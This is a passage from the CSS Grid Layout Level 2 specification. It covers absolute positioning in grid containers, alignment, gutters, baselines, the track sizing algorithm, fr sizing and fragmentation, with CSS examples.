> > **Note:** Grids and the grid-placement properties are flow-relative, while the offset properties (`left`, `right`, `top`, and `bottom`) are physical, so if the `direction` or `writing-mode` properties change, the grid will transform to match, but the offsets won’t.

Instead of auto-placement, an `auto` value for a grid-placement property contributes a special line to the placement whose position is that of the corresponding padding edge of the grid container (the padding edge of the scrollable area, if the grid container overflows). These lines become the first and last lines (0th and -0th) of the **augmented grid** used for positioning absolutely-positioned items.

> **Note:** Thus, by default, the absolutely-positioned box’s containing block will correspond to the padding edges of the grid container, as it does for block containers.

Absolute positioning occurs after layout of the grid and its in-flow contents, and does not contribute to the sizing of any grid tracks or affect the size/configuration of the grid in any way. If a grid-placement property refers to a non-existent line either by explicitly specifying such a line or by spanning outside of the existing implicit grid, it is instead treated as specifying `auto` (instead of creating new implicit grid lines).

> **Note:** Remember that implicit lines are assumed to have all line names, so a referenced line might exist even though it is not explicitly named.

If the placement only contains a grid span, replace it with the two `auto` lines in that axis. (This happens when both grid-placement properties in an axis contributed a span originally, and [§ 8.3.1 Grid Placement Conflict Handling](#css-grid-2:grid-placement-errors) caused the second span to be ignored.)

#### 10.2.  With a Grid Container as Parent {#css-grid-2:static-position}

An absolutely-positioned child of a grid container is out-of-flow and not a grid item, and so does not affect the placement of other items or the sizing of the grid.

The [static position](#css2:abs-non-replaced-width) [CSS2] of an absolutely-positioned child of a grid container is determined as if it were the sole grid item in a grid area whose edges coincide with the content edges of the grid container.

> **Note:** Note that this position is affected by the values of `justify-self` and `align-self` on the child, and that, as in most other layout models, the absolutely-positioned child has no effect on the size of the containing block or layout of its contents.

### 11.  Alignment and Spacing {#css-grid-2:alignment}

After a grid container’s grid tracks have been sized, and the dimensions of all grid items are finalized, grid items can be aligned within their grid areas.

> **Note:** The grid items of subgrids participate in alignment, including baseline alignment, together with their parent grid’s items; see [Subgrids (h)](#css-grid-2:subgrid-item-contribution).

The `margin` properties can be used to align items in a manner similar to what margins can do in block layout. Grid items also respect the box alignment properties from the [CSS Box Alignment Module](#css-align-3) [CSS-ALIGN-3], which allow easy keyword-based alignment of items in both the rows and columns.

By default, grid items stretch to fill their grid area. However, if `justify-self` or `align-self` compute to a value other than `stretch` or margins are `auto`, grid items will auto-size to fit their contents.

#### 11.1.  Gutters: the `row-gap`, column-gap, and `gap` properties {#css-grid-2:gutters}

The `row-gap` and column-gap properties (and their `gap` shorthand), when specified on a grid container, define the gutters between grid rows and grid columns. Their syntax is defined in [CSS Box Alignment 3 § 8 Gaps Between Boxes](#css-align-3:gaps).

The effect of these properties is as though the affected grid lines acquired thickness: the grid track between two grid lines is the space between the gutters that represent them. For the purpose of [track sizing](#css-grid-2:algo-track-sizing), each gutter is treated as an extra, empty, fixed-size track of the specified size, which is spanned by any grid items that span across its corresponding grid line.

> **Note:** Additional spacing may be added between tracks due to `justify-content`/`align-content`. See § 12.1 Grid Sizing Algorithm. This space effectively increases the size of the gutters.

If a grid is fragmented between tracks, the gutter spacing between those tracks must be suppressed. Note that gutters are suppressed even after forced breaks, [unlike margins](#css-break-4:break-margins).

Gutters only appear *between* tracks of the implicit grid; there is no gutter before the first track or after the last track. (In particular, there is no gutter between the first/last track of the implicit grid and the “auto” lines in the augmented grid.)

When a collapsed track’s gutters **collapse**, they coincide exactly—​the two gutters overlap so that their start and end edges coincide. If one side of a collapsed track does not have a gutter (e.g. if it is the first or last track of the implicit grid), then collapsing its gutters results in no gutter on either “side” of the collapsed track.

#### 11.2.  Aligning with `auto` margins {#css-grid-2:auto-margins}

Auto margins on grid items have an effect very similar to auto margins in block layout:

- During calculations of grid track sizes, `auto` margins are treated as `0`.
- As defined for the inline axis of block layout (see [CSS2§10.3.3](#css2:blockwidth)), `auto` margins in either axis absorb positive free space prior to alignment via the box alignment properties, thereby disabling the effects of any self-alignment properties in that axis.
- Overflowing grid items resolve their `auto` margins to zero and overflow as specified by their box alignment properties.

#### 11.3.  Inline-axis Alignment: the `justify-self` and `justify-items` properties {#css-grid-2:row-align}

Grid items can be aligned in the inline dimension by using the `justify-self` property on the grid item or `justify-items` property on the grid container, as defined in [CSS-ALIGN-3].

> **Example:** For example, for an English document, the inline axis is horizontal, and so the `justify-*` properties align the grid items horizontally.

If baseline alignment is specified on a grid item whose size in that axis depends on the size of an intrinsically-sized track (whose size is therefore dependent on both the item’s size and baseline alignment, creating a cyclic dependency), that item does not participate in baseline alignment, and instead uses its fallback alignment as if that were originally specified. For this purpose, `<flex>` track sizes count as “intrinsically-sized” when the grid container has an indefinite size in the relevant axis.

> **Note:** Whether the fallback alignment is used or not does not change over the course of layout: if a cycle exists, it exists.

#### 11.4.  Block-axis Alignment: the `align-self` and `align-items` properties {#css-grid-2:column-align}

Grid items can also be aligned in the block dimension (perpendicular to the inline dimension) by using the `align-self` property on the grid item or `align-items` property on the grid container, as defined in [CSS-ALIGN-3].

If baseline alignment is specified on a grid item whose size in that axis depends on the size of an intrinsically-sized track (whose size is therefore dependent on both the item’s size and baseline alignment, creating a cyclic dependency), that item does not participate in baseline alignment, and instead uses its fallback alignment as if that were originally specified. For this purpose, `<flex>` track sizes count as “intrinsically-sized” when the grid container has an indefinite size in the relevant axis.

#### 11.5.  Aligning the Grid: the `justify-content` and `align-content` properties {#css-grid-2:grid-align}

If the grid’s outer edges do not correspond to the grid container’s content edges (for example, if no columns are flex-sized), the grid tracks are aligned within the content box according to the `justify-content` and `align-content` properties on the grid container.

> **Example:** For example, the following grid is centered vertically, and aligned to the right edge of its grid container:
>
> ```
> .grid {
>   display: grid;
>   grid: 12rem 12rem 12rem 12rem / 10rem 10rem 10rem 10rem;
>   justify-content: end;
>   align-content: center;
>   min-height: 60rem;
> }
> ```
>
> 

If there are no grid tracks (the explicit grid is empty, and no tracks were created in the implicit grid), the sole grid line in each axis is aligned with the start edge of the grid container.

Note that certain values of `justify-content` and `align-content` can cause the tracks to be spaced apart (`space-around`, `space-between`, `space-evenly`) or to be resized (`stretch`). If the grid is fragmented between tracks, any such additional spacing between those tracks must be suppressed.

> **Example:** For example, in the following grid, the spanning item’s grid area is increased to accommodate the extra space assigned to the gutters due to alignment:
>
> ```
> .wrapper {
>   display: grid;
>   /* 3-row / 4-column grid container */
>   grid: repeat(3, auto) / repeat(4, auto);
>   gap: 10px;
>   align-content: space-around;
>   justify-content: space-between;
> }
>
> .item1 { grid-column: 1 / 5; }
> .item2 { grid-column: 1 / 3; grid-row: 2 / 4; }
> .item3 { grid-column: 3 / 5; }
> /* last two items auto-place into the last two grid cells */
> ```
>
> 
>
> Grid before alignment
>
> 
>
> Grid after alignment
>
> Note that alignment (unlike `gap` spacing) happens after the grid tracks are sized, so if the track sizes are determined by the contents of the spanned item, it will gain excess space in the alignment stage to accommodate the alignment spacing.

#### 11.6.  Grid Container Baselines {#css-grid-2:grid-baselines}

The first baseline set of a grid container is taken from the first available of:

1. If any grid items intersecting the first (block-start–most) non-empty track participate in first baseline alignment along the relevant axis, generate a baseline set from their shared alignment baseline and the grid container’s first available font, after alignment has been performed.
2. Otherwise, if any grid items intersecting that track participate in last baseline alignment along the relevant axis, generate from *that* alignment baseline.
3. Otherwise, if any grid items intersecting that track have a baseline set in the relevant axis at all, take the baseline set from the first such grid item in grid order.
4. Otherwise, if there are any grid items at all, synthesize a baseline set from the first grid item in grid order.
5. Otherwise, the grid container has no first baseline set in the relevant axis. (One is synthesized from the grid container itself if needed, according to the rules of its alignment context.)

For this purpose, any grid item that spans multiple tracks is ignored if it’s span does not start in the indicated track; except that for step 2, it’s ignored if its span does not *end* in the track.

Last baselines are analogous (with “first”/“last” and “start”/“end” inverted).

**Grid-modified document order (grid order)** is the order in which grid items are encountered when traversing the grid’s grid cells. If two items are encountered at the same time, they are taken in order-modified document order.

When calculating the baseline according to the above rules, if the box contributing a baseline has an `overflow` value that allows scrolling, the box must be treated as being in its initial scroll position for the purpose of determining its baseline.

When [determining the baseline of a table cell](#css2:height-layout), a grid container provides a baseline just as a line box or table-row does. [CSS2]

See [CSS Writing Modes 3 § 4.1 Introduction to Baselines](#css-writing-modes-4:intro-baselines) and [CSS Box Alignment 3 § 9 Baseline Alignment Details](#css-align-3:baseline-rules) for more information on baselines.

### 12.  Grid Layout Algorithm {#css-grid-2:layout-algorithm}

This section defines the **grid layout algorithm**, which sizes the grid container, sizes and positions all the grid tracks, and lays out the grid items which have been placed into its grid areas.

1. Run the Grid Item Placement Algorithm to resolve the placement of all grid items (including subgrids and their sub-items) in the grid.
2. Find the size of the grid container, per [§ 5.2 Sizing Grid Containers](#css-grid-2:intrinsic-sizes).

   > **Note:** During this phase, cyclic `<percentage>`s in track sizes are treated as `auto`.
3. Given the resulting grid container size, run the Grid Sizing Algorithm to size the grid.

   > **Note:** During this phase, `<percentage>`s in track sizes are resolved against the grid container size.
4. Lay out the grid items into their respective containing blocks. Each grid area’s width and height are considered definite for this purpose.

   > **Note:** Since formulas calculated using only definite sizes, such as the stretch fit formula, are also definite, the size of a grid item which is stretched is also considered definite.

#### 12.1.  Grid Sizing Algorithm {#css-grid-2:algo-grid-sizing}

This section defines the **grid sizing algorithm**, which determines the size of all grid tracks and, by extension, the entire grid.

Each track has specified minimum and maximum sizing functions (which may be the same). Each sizing function is either:

- A **fixed sizing function** (`<length>` or resolvable `<percentage>`).
- An **intrinsic sizing function** (`min-content`, `max-content`, `auto`, `fit-content()`).
- A **flexible sizing function** (`<flex>`).

The grid sizing algorithm defines how to resolve these sizing constraints into used track sizes.

1. First, the track sizing algorithm is used to resolve the sizes of the grid columns.

   In this process, any grid item which is subgridded in the grid container’s inline axis is treated as empty and its grid items (the grandchildren) are treated as direct children of the grid container (their grandparent). This introspection is recursive.

   Items which are subgridded only in the block axis, and whose grid container size in the inline axis depends on the size of its contents are also introspected: since the size of the item in this dimension can be dependent on the sizing of its subgridded tracks in the other, the size contribution of any such item to this grid’s column sizing (see [Resolve Intrinsic Track Sizes](#css-grid-2:algo-content)) is taken under the provision of having determined its track sizing only up to the same point in the Grid Sizing Algorithm as this itself. E.g. for the first pass through this step, the item will have its tracks sized only through this first step; if a second pass of this step is triggered then the item will have completed a first pass through steps 1-3 as well as the second pass of this step prior to returning its size for consideration in this grid’s column sizing. Again, this introspection is recursive.

   If calculating the layout of a grid item in this step depends on the available space in the block axis, assume the available space that it would have if any row with a definite max track sizing function had that size and all other rows were infinite. If both the grid container and all tracks have definite sizes, also apply `align-content` to find the final effective size of any gaps spanned by such items; otherwise ignore the effects of track alignment in this estimation.
2. Next, the track sizing algorithm resolves the sizes of the grid rows.

   In this process, any grid item which is subgridded in the grid container’s block axis is treated as empty and its grid items (the grandchildren) are treated as direct children of the grid container (their grandparent). This introspection is recursive.

   As with sizing columns, items which are subgridded only in the inline axis, and whose grid container size in the block axis depends on the size of its contents are also introspected. (As with sizing columns, the size contribution to this grid’s row sizing is taken under the provision of having determined its track sizing only up to this corresponding point in the algorithm; and again, this introspection is recursive.)

   To find the inline-axis available space for any items whose block-axis size contributions require it, use the grid column sizes calculated in the previous step. If the grid container’s inline size is definite, also apply `justify-content` to account for the effective column gap sizes.
3. Then, if the min-content contribution of any grid item has changed based on the row sizes and alignment calculated in step 2, re-resolve the sizes of the grid columns with the new min-content and max-content contributions (once only).

   To find the block-axis available space for any items whose inline-axis size contributions require it, use the grid row sizes calculated in the previous step. If the grid container’s block size is definite, also apply `align-content` to account for the effective row gap sizes.

   > **Note:** This repetition is necessary for cases where the inline size of a grid item depends on the block size of its grid area. Examples include wrapped column flex containers (`flex-flow: column wrap`), orthogonal flows (`writing-mode`), multi-column containers, and items with an aspect-ratio (or with a child with an aspect ratio) whose size depends on the size of the row.
4. Next, if the min-content contribution of any grid item has changed based on the column sizes and alignment calculated in step 3, re-resolve the sizes of the grid rows with the new min-content and max-content contributions (once only).

   To find the inline-axis available space for any items whose block-axis size contributions require it, use the grid column sizes calculated in the previous step. If the grid container’s inline size is definite, also apply `justify-content` to account for the effective column gap sizes.
5. Finally, align the tracks within the grid container according to the `align-content` and `justify-content` properties.

   > **Note:** This can introduce extra space between tracks, potentially enlarging the grid area of any grid items spanning the gaps beyond the space allotted to during track sizing.

> **Note:** Track sizing in a subgridded dimension treats each item in a given track in that axis as members of the parent grid. This interlacing requires that grid sizing drill down per axis into subgrids, rather than completing both axes as it recurses. Note this means that a subgrid establishing an orthogonal flow would have the order of its track sizing inverted compared to a nested grid.

> **Example:** The following example illustrates how per-axis subgrids are sized:
>
> Suppose we have a parent grid container *A* which contains an item *B* that has subgridded columns and contains a grandchild *B* that has subgridded rows and grandchild *D* that is simply a nested grid.
>
> ```
> <grid-A>
>   <grid-B subgrid=columns>
>     <grid-C subgrid=rows></grid-C>
>     <grid-D></grid-D>
>   </grid-B>
> <grid-A>
> ```
>
> When *A* sizes its columns it treats *B*’s items as slotted into to *A*’s corresponding columns, but when *A* sizes its rows it treats *B* as a single item (a grid container with its own rows and some items including items *C* and *D*). Similarly when *B* sizes its rows, it treats *C*’s items as slotted into *B*’s rows, but when *B* sizes its columns, it treats *C* as a single item, just as it does with *D*. There is no relationship between *C*’s rows and *A*’s rows, because the rows in *B* are nested, not subgridded.
>
> At a high level, the grid algorithm is:
>
> 1. Size the columns
> 2. Size the rows
> 3. Adjust the columns (if needed based on final row sizes)
>
> The grid sizing algorithm in this example would thus look like this:
>
> 1. **Resolve sizes of *A*’s grid columns, using the sizes of *A*’s grid items, treating *B* as empty but treating its children (including *C* and *D*) as items in grid *A*.**
>
>    The grid algorithm simply recurses into *D*. For *C*, it’s more complicated:
>
>   1. Size *C*’s columns.
>   2. Size *C*’s rows by sizing *B*’s rows.
>   3. Adjust *C*’s columns.
>   4. Return *C*’s final column sizes.
>
>    A correct size for *B*’s rows requires *C*’s final column sizes, because the row size depends on the column size, and thus *B*’s rows could very well depend on *C*’s final column sizes. To break this cyclic dependency, we need to split the algorithm to depend on the initial approximation of *C*’s final column sizes, and do the adjustment pass later. So for *C*, we need to recurse into column sizing only, and pass that initial size up to *A* for its initial column sizing.
>
>    When we size *B*’s rows later on, we will size *C*’s rows (which are subgridded), and finish up *C*’s sizing by finalizing its columns. If this resulted in a change, we have the opportunity to trigger an adjustment pass for *A*’s columns during its adjustment pass.
> 2. **Next, resolve sizes of *A*’s rows, using the sizes of *A*’s grid items, treating *B* as a single item.**
>
>    Since *B*, as a subgrid, has its sizing is split out into the multiple passes, the grid algorithm issues only a row-sizing recursion into *B*: Size *B*’s rows, treating D as a single item, requesting its final size, and treating *C* as an empty item and hoisting its children as items into grid *B*.
>
>    *B* returns its final row size, which factors into *A*’s row sizing pass.
> 3. **Last, finalize *A*’s column sizes.** If *C*’s final size changes as a result of the row-sizing pass through *B*, this should trigger a resizing of *B*’s columns, which should trigger a resizing pass on *A*’s column.

#### 12.2.  Track Sizing Terminology {#css-grid-2:algo-terms}

****min track sizing function****

: If the track was sized with a `minmax()` function, this is the first argument to that function. If the track was sized with a `<flex>` value or `fit-content()` function, `auto`. Otherwise, the track’s sizing function.

****max track sizing function****

: If the track was sized with a `minmax()` function, this is the second argument to that function. Otherwise, the track’s sizing function. In all cases, treat `auto` and `fit-content()` as `max-content`, except where specified otherwise for `fit-content()`.

****available grid space****

: Independently in each dimension, the available grid space is:

  - If the grid container’s size is definite, then use the size of its content box.
  - If the grid container is being sized under a min-content constraint or max-content constraint then the available grid space is that constraint (and is indefinite).

  > **Note:** `auto` sizes that indicate content-based sizing (e.g. the height of a block-level box in horizontal writing modes) are equivalent to `max-content`.

  In all cases, clamp the available grid space according to the grid container’s min/max-width/height properties, if they are definite.

****free space****

: Equal to the available grid space minus the sum of the base sizes of all the grid tracks (including gutters), floored at zero. If available grid space is indefinite, the free space is indefinite as well.

****span count****

: The number of grid tracks crossed by a grid item in the applicable dimension.

> **Note:** Remember that [gutters](#css-grid-2:gutters) are treated as fixed-size tracks—​tracks with their min and max sizing functions both set to the gutter’s used size—​for the purpose of the grid sizing algorithm. Their widths need to be incorporated into the track sizing algorithm’s calculations accordingly.

#### 12.3.  Track Sizing Algorithm {#css-grid-2:algo-track-sizing}

The remainder of this section is the **track sizing algorithm**, which calculates from the min and max track sizing functions the used track size. Each track has a **base size**, a `<length>` which grows throughout the algorithm and which will eventually be the track’s final size, and a **growth limit**, a <length> which provides a desired maximum size for the base size. There are 5 steps:

1. [Initialize Track Sizes](#css-grid-2:algo-init)
2. [Resolve Intrinsic Track Sizes](#css-grid-2:algo-content)
3. [Maximize Tracks](#css-grid-2:algo-grow-tracks)
4. [Expand Flexible Tracks](#css-grid-2:algo-flex-tracks)
5. [Expand Stretched `auto` Tracks](#css-grid-2:algo-stretch)

#### 12.4.  Initialize Track Sizes {#css-grid-2:algo-init}

**Initialize each track’s base size and growth limit.** For each track, if the track’s min track sizing function is:

**A fixed sizing function**

: Resolve to an absolute length and use that size as the track’s initial base size.

  > **Note:** Indefinite lengths cannot occur, as they’re treated as `auto`.

**An intrinsic sizing function**

: Use an initial base size of zero.

For each track, if the track’s max track sizing function is:

**A fixed sizing function**

: Resolve to an absolute length and use that size as the track’s initial growth limit.

**An intrinsic sizing function A flexible sizing function**

: Use an initial growth limit of infinity.

In all cases, if the growth limit is less than the base size, increase the growth limit to match the base size.

> **Note:** Gutters are treated as empty fixed-size tracks for the purpose of the track sizing algorithm.

#### 12.5.  Resolve Intrinsic Track Sizes {#css-grid-2:algo-content}

This step resolves intrinsic track sizing functions to absolute lengths. First it resolves those sizes based on items that are contained wholly within a single track. Then it gradually adds in the space requirements of items that span multiple tracks, evenly distributing the extra space across those tracks insofar as possible.

> **Note:** When this step is complete, all intrinsic base sizes and growth limits will have been resolved to absolute lengths.

> **Note:** [Remember that](#css-grid-2:algo-terms) `fit-content()` and `auto` max track sizing functions are treated the same as `max-content` except where explicitly specified otherwise.

1. **Shim baseline-aligned items so their intrinsic size contributions reflect their baseline alignment.** For the items in each baseline-sharing group, add a “shim” (effectively, additional margin) on the start/end side (for first/last-baseline alignment) of each item so that, when start/end-aligned together their [baselines align as specified](#css-align-3:baseline-values).

   Consider these “shims” as part of the items’ intrinsic size contribution for the purpose of track sizing, below. If an item uses multiple intrinsic size contributions, it can have different shims for each one.

   > **Example:** For example, when the grid container has an indefinite size, it is first laid out under min/max-content constraints to find the size, then laid out "for real" with that size (which can affect things like percentage tracks). The "shims" added for each phase are independent, and only affect the layout during that phase.

   > **Note:** Note that both [baseline self-aligned](#css-align-3:baseline-align-self) and [baseline content-aligned](#css-align-3:baseline-align-content) items are considered in this step.

   > **Note:** Since grid items whose own size depends on the size of an intrinsically-sized track [do not participate in baseline alignment](#css-grid-2:row-align), they are not shimmed.
2. **Size tracks to fit non-spanning items:** For each track with an intrinsic track sizing function and not a flexible sizing function, consider the items in it with a span of 1:

   **For min-content minimums:**

   : If the track has a `min-content` min track sizing function, set its base size to the maximum of the items’ min-content contributions, floored at zero.

   **For max-content minimums:**

   : If the track has a `max-content` min track sizing function, set its base size to the maximum of the items’ max-content contributions, floored at zero.

   **For auto minimums:**

   : If the track has an `auto` min track sizing function and the grid container is being sized under a min-/max-content constraint, set the track’s base size to the maximum of its items’ limited min-content contributions, floored at zero. The **limited min-/max-content contribution** of an item is (for this purpose) its min-/max-content contribution (accordingly), limited by the max track sizing function (which could be the argument to a `fit-content()` track sizing function) if that is fixed and ultimately floored by its minimum contribution (defined below).

  Otherwise, set the track’s base size to the maximum of its items’ minimum contributions, floored at zero. The **minimum contribution** of an item is the smallest outer size it can have. Specifically, if the item’s computed preferred size behaves as auto or depends on the size of its containing block in the relevant axis, its minimum contribution is the outer size that would result from assuming the item’s used minimum size as its preferred size; else the item’s minimum contribution is its min-content contribution. Because the minimum contribution often depends on the size of the item’s content, it is considered a type of intrinsic size contribution.

  > **Note:** For items with a specified minimum size of `auto` (the initial value), the minimum contribution is usually equivalent to the min-content contribution—​but can differ in some cases, see [§ 6.6 Automatic Minimum Size of Grid Items](#css-grid-2:min-size-auto). Also, minimum contribution ≤ min-content contribution ≤ max-content contribution.

   **For min-content maximums:**

   : If the track has a `min-content` max track sizing function, set its growth limit to the maximum of the items’ min-content contributions.

   **For max-content maximums:**

   : If the track has a `max-content` max track sizing function, set its growth limit to the maximum of the items’ max-content contributions. For `fit-content()` maximums, furthermore clamp this growth limit by the `fit-content()` argument.

   In all cases, if a track’s growth limit is now less than its base size, increase the growth limit to match the base size.

   > **Note:** This step is a simplification of the steps below for handling spanning items, and should yield the same behavior as running those instructions on items with a span of 1.
3. **Increase sizes to accommodate spanning items crossing content-sized tracks:** Next, consider the items with a span of 2 that do not span a track with a flexible sizing function.

  1. **For intrinsic minimums:** First distribute extra space to base sizes of tracks with an intrinsic min track sizing function, to accommodate these items’ minimum contributions.

     If the grid container is being sized under a min- or max-content constraint, use the items’ limited min-content contributions in place of their minimum contributions here. (For an item spanning multiple tracks, the upper limit used to calculate its limited min-/max-content contribution is the *sum* of the fixed max track sizing functions of any tracks it spans, and is applied if it only spans such tracks.)
  2. **For content-based minimums:** Next continue to distribute extra space to the base sizes of tracks with a min track sizing function of `min-content` or `max-content`, to accommodate these items' min-content contributions.
  3. **For max-content minimums:** Next, if the grid container is being sized under a max-content constraint, continue to distribute extra space to the base sizes of tracks with a min track sizing function of `auto` or `max-content`, to accommodate these items' limited max-content contributions.

     In all cases, continue to distribute extra space to the base sizes of tracks with a min track sizing function of `max-content`, to accommodate these items' max-content contributions.
  4. If at this point any track’s growth limit is now less than its base size, increase its growth limit to match its base size.
  5. **For intrinsic maximums:** Next distribute extra space to the growth limits of tracks with intrinsic max track sizing function, to accommodate these items' min-content contributions. Mark any tracks whose growth limit changed from infinite to finite in this step as **infinitely growable** for the next step.

     > **Note:** Why does the infinitely growable flag exist?
     >
     > [Peter Salas explains](http://lists.w3.org/Archives/Public/www-style/2014Mar/0500.html):
     >
     > > ```
     > > Consider the following case:
     > >
     > > Two "auto" tracks (i.e. ''minmax(min-content, max-content) minmax(min-content, max-content)'').
     > > Item 1 is in track 1, and has min-content = max-content = 10.
     > > Item 2 spans tracks 1 and 2, and has min-content = 30, max-content = 100.
     > >
     > > After resolving min-content/max-content for the first item, we have this.
     > >
     > > track 1: base size = 10 growth limit = 10
     > >
     > > track 2: base size = 0 growth limit = infinity
     > >
     > > Then we resolve min-content/max-content for the second item.
     > >
     > > Phase 1 sets the base size of track 2 to 20 so that the two tracks' base sizes sum to 30.
     > > Phase 2 does nothing because there are no relevant tracks.
     > > Phase 3 sets the growth limit of track 2 to 20 so that the two tracks' growth limits sum to 30.
     > > In phase 4, we need to grow the sum of the growth limits by 70 to accommodate item 2.
     > > Two options are:
     > >
     > > 1. Grow each track's growth limit equally,
     > >   and end up with growth limits = [45, 55].
     > > 2. Grow only the second track's growth limit,
     > >   and end up with growth limits = [10, 90].
     > >
     > > By not considering the just-set growth limit as a constraint during space distribution
     > > (i.e. by treating it as infinity),
     > > we get the second result,
     > > which we considered a better result because the first track remains sized exactly to the first item.
     > > ```
  6. **For max-content maximums:** Lastly continue to distribute extra space to the growth limits of tracks with a max track sizing function of `max-content`, to accommodate these items' max-content contributions.

   Repeat incrementally for items with greater spans until all items have been considered.
4. **Increase sizes to accommodate spanning items crossing flexible tracks:** Next, repeat the previous step instead considering (together, rather than grouped by span size) all items that *do* span a track with a flexible sizing function while

  - distributing space *only* to flexible tracks (i.e. treating all other tracks as having a fixed sizing function)
  - if the sum of the flexible sizing functions of all flexible tracks spanned by the item is greater than or equal to one, distributing space to such tracks according to the ratios of their flexible sizing functions rather than distributing space equally; and if the sum is less than one, distributing that proportion of space according to the ratios of their flexible sizing functions and the rest equally
5. If any track still has an infinite growth limit (because, for example, it had no items placed in it or it is a flexible track), set its growth limit to its base size.

> **Note:** There is no single way to satisfy intrinsic sizing constraints when items span across multiple tracks. This algorithm embodies a number of heuristics which have been seen to deliver good results on real-world use-cases, such as the “game” examples earlier in this specification. This algorithm may be updated in the future to take into account more advanced heuristics as they are identified.

##### 12.5.1.  Distributing Extra Space Across Spanned Tracks {#css-grid-2:extra-space}

To **distribute extra space**, perform the following steps, with these inputs:

- whether to affect base sizes or growth limits (the *affected size*s).
- which tracks to affect (the *affected track*s).
- what intrinsic size contributions are being accommodated (the *size contribution*s) of which grid items spanning those tracks (the *item*s).

1. Maintain separately for each *affected track* a *planned increase*, initially set to 0. (This prevents the size increases from becoming order-dependent.)
2. For each accommodated *item*, considering only tracks the item spans:

  1. **Find the space to distribute:** Subtract the *affected size* of every spanned track (not just the *affected track*s) from the item’s *size contribution*, flooring it at zero. (For infinite growth limits, substitute the track’s base size.) This remaining size contribution is the *space* to distribute.

     ```
     space = max(0, size contribution - ∑track-sizes)
     ```
  2. **Distribute *space* up to limits:**

     Find the *item-incurred increase* for each *affected track* by: distributing the *space* equally among these tracks, freezing a track’s *item-incurred increase* as its *affected size* + *item-incurred increase* reaches its *limit* (and continuing to grow the unfrozen tracks as needed).

     For base sizes, the *limit* is its growth limit, capped by its `fit-content()` argument if any. For growth limits, the *limit* is the growth limit if the growth limit is finite and the track is not infinitely growable, otherwise its `fit-content()` argument if it has a `fit-content()` track sizing function, and infinity otherwise.

     > **Note:** If the *affected size* was a growth limit and the track is not marked infinitely growable, then each *item-incurred increase* will be zero.
  3. **Distribute *space* to non-affected tracks:**

     If extra *space* remains at this point, and the item spans both *affected tracks* and non-*affected tracks*, distribute space as for the previous step, but into the non-*affected tracks* instead.

     > **Note:** This distributes any remaining space into tracks that have not yet reached their growth limits, instead of violating the growth limits of the *affected tracks*.
  4. **Distribute *space* beyond limits:**

     If extra *space* remains at this point, unfreeze and continue to distribute *space* to the *item-incurred increase* of…

    - when [accommodating minimum contributions](#css-grid-2:track-size-intrinsic-min) or [accommodating min-content contributions](#css-grid-2:track-size-content-min) into base sizes: any *affected track* that happens to also have an intrinsic max track sizing function; if there are no such tracks, then all *affected track*s.
    - when [accommodating max-content contributions](#css-grid-2:track-size-max-content-min) into base sizes: any *affected track* that happens to also have a `max-content` max track sizing function; if there are no such tracks, then all *affected track*s.
    - when accommodating any contribution into growth limits: any *affected track* that has an intrinsic max track sizing function.

     For this purpose, the max track sizing function of a `fit-content()` track is treated as `max-content` until the track reaches the limit specified as the `fit-content()` argument, after which its max track sizing function is treated as being a fixed sizing function of that argument (which can change which tracks continue to receive space in this step).

     > **Note:** This step prioritizes the distribution of space for accommodating *size contribution*s beyond the tracks' current growth limits based on the types of their max track sizing functions.
  5. For each *affected track*, if the track’s *item-incurred increase* is larger than the track’s *planned increase* set the track’s *planned increase* to that value.
3. **Update the tracks' *affected size*s** by adding in the *planned increase*, so that the next round of space distribution will account for the increase. (If the affected size is an infinite growth limit, set it to the track’s base size plus the *planned increase*.)

#### 12.6.  Maximize Tracks {#css-grid-2:algo-grow-tracks}

If the free space is positive, distribute it equally to the base sizes of all tracks, freezing tracks as they reach their growth limits (and continuing to grow the unfrozen tracks as needed).

For the purpose of this step: if sizing the grid container under a max-content constraint, the free space is infinite; if sizing under a min-content constraint, the free space is zero.

If this would cause the grid to be larger than the grid container’s inner size as limited by its `max-width/height`, then redo this step, treating the available grid space as equal to the grid container’s inner size when it’s sized to its max-width/height.

#### 12.7.  Expand Flexible Tracks {#css-grid-2:algo-flex-tracks}

This step sizes flexible tracks using the largest value it can assign to an `fr` without exceeding the available space.

First, find the grid’s used flex fraction:

**If the free space is zero or if sizing the grid container under a min-content constraint:**

: The used flex fraction is zero.

**Otherwise, if the free space is a definite length:**

: The used flex fraction is the result of [finding the size of an fr](#css-grid-2:algo-find-fr-size) using all of the grid tracks and a space to fill of the available grid space.

**Otherwise, if the free space is an indefinite length:**

: The used flex fraction is the maximum of:

  - For each flexible track, if the flexible track’s flex factor is greater than one, the result of dividing the track’s base size by its flex factor; otherwise, the track’s base size.
  - For each grid item that crosses a flexible track, the result of [finding the size of an fr](#css-grid-2:algo-find-fr-size) using all the grid tracks that the item crosses and a space to fill of the item’s max-content contribution.

  If using this flex fraction would cause the grid to be smaller than the grid container’s `min-width/height` (or larger than the grid container’s `max-width/height`), then redo this step, treating the free space as definite and the available grid space as equal to the grid container’s inner size when it’s sized to its min-width/height (max-width/height).

For each flexible track, if the product of the used flex fraction and the track’s flex factor is greater than the track’s base size, set its base size to that product.

##### 12.7.1.  Find the Size of an `fr` {#css-grid-2:algo-find-fr-size}

This algorithm finds the largest size that an `fr` unit can be without exceeding the target size. It must be called with a set of grid tracks and some quantity of **space to fill**.

1. Let **leftover space** be the space to fill minus the base sizes of the non-flexible grid tracks.
2. Let **flex factor sum** be the sum of the flex factors of the flexible tracks. If this value is less than 1, set it to 1 instead.
3. Let the **hypothetical fr size** be the leftover space divided by the flex factor sum.
4. If the product of the hypothetical fr size and a flexible track’s flex factor is less than the track’s base size, restart this algorithm treating all such tracks as inflexible.
5. Return the hypothetical fr size.

#### 12.8.  Stretch `auto` Tracks {#css-grid-2:algo-stretch}

When the content-distribution property of the grid container is `normal` or `stretch` in this axis, this step expands tracks that have an `auto` max track sizing function by dividing any remaining positive, definite free space equally amongst them. If the free space is indefinite, but the grid container has a definite `min-width/height`, use that size to calculate the free space for this step instead.

### 13.  Fragmenting Grid Layout {#css-grid-2:pagination}

Grid containers can break across pages between rows or columns and inside items. The `break-*` properties apply to grid containers as normal for the formatting context in which they participate. This section defines how they apply to grid items and the contents of grid items.

The following breaking rules refer to the fragmentation container as the “page”. The same rules apply in any other fragmentation context. (Substitute “page” with the appropriate fragmentation container type as needed.) See the [CSS Fragmentation Module](#css-break-4) [CSS3-BREAK].

The exact layout of a fragmented grid container is not defined in this level of Grid Layout. However, breaks inside a grid container are subject to the following rules:

- The `break-before` and `break-after` properties on grid items are propagated to their grid row. The `break-before` property on the first row and the `break-after` property on the last row are propagated to the grid container.
- A forced break inside a grid item effectively increases the size of its contents; it does not trigger a forced break inside sibling items.
